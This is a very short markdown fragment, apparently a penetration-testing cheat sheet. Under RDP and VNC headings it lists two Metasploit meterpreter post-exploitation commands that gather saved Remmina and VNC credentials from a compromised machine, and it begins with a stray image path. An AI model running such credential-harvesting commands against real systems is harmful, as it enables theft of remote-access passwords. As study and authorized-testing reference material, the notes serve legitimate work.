 # Network Ports

## RDP

```
meterpreter > run post/multi/gather/remmina_creds
```

## VNC

```
meterpreter > run post/windows/gather/credentials/vnc
```